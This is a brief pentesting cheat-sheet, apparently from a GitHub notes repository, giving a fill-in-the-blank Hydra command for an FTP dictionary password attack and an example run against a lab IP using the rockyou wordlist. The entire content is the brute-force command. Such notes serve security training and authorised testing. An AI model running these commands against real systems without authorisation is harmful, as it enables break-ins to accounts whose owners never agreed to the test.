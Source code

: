 # Hydra - FTP

*********************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
*********************************************************************************

### FTP Dictionary Attack:
```
hydra -l [USERNAME] -P [WORDLIST-PATH] ftp://[TARGET-IP]
```
Example:
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt ftp://10.10.86.86
```
